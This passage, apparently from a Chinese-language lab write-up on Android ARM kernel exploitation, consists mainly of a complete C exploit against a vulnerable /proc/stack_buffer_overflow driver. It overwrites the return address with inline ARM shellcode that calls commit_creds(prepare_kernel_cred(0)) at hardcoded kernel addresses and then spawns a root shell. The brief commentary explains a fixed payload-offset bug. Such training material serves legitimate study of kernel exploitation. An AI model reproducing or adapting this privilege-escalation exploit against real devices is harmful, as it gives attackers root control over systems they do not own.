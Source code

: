 这里面有找内核符号的函数，获取proc的函数，构造shellcode的函数等等。
不过实际上经过我们的分析和操作，实际上只需要这些代码的一部分就够了，比如找符号的那一部分就可以不要了。而且这个solution其实本身就有坑，max_payload和pc跳转的位置都8一样，直接跑的话就反手给你来一个pc=AAAAAAA，当场自闭。这里我们可以抄另一个大佬改的。

``` c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <stdint.h>
#define MAX             64
int open_file(void)
{
        int fd = open("/proc/stack_buffer_overflow", O_RDWR);
        if (fd == -1)
                err(1, "open");
        return fd;
}
void payload(void)
{
                printf("[+] enjoy the shell\n");
                execl("/system/bin/sh", "sh", NULL);
}
extern uint32_t shellCode[];
asm
(
"    .text\n"
"    .align 2\n"
"    .code 32\n"
"    .globl shellCode\n\t"
"shellCode:\n\t"
// commit_creds(prepare_kernel_cred(0));
// -> get root
"LDR     R3, =0xc0039d34\n\t"   //prepare_kernel_cred addr
"MOV     R0, #0\n\t"
"BLX     R3\n\t"
"LDR     R3, =0xc0039834\n\t"   //commit_creds addr
"BLX     R3\n\t"

"mov r3, #0x40000010\n\t"
"MSR    CPSR_c,R3\n\t"
"LDR     R3, =0x84c8\n\t"     // payload function addr
"BLX     R3\n\t"
);
void trigger_vuln(int fd)
{
        #define MAX_PAYLOAD (MAX + 2  * sizeof(void*) )
        char buf[MAX_PAYLOAD];
        memset(buf, 'A', sizeof(buf));
        void * pc = buf + MAX +  1 * sizeof(void*);
        printf("shellcdoe addr: %p\n", shellCode);
        printf("payload:%p\n", payload);
        *(void **)pc  = (void *) shellCode;   //ret addr
        /* Kaboom! */
        write(fd, buf, sizeof(buf) );
}
int main(void)
{
        int fd;
        fd = open_file();
        trigger_vuln(fd);
        payload();
        close(fd);
```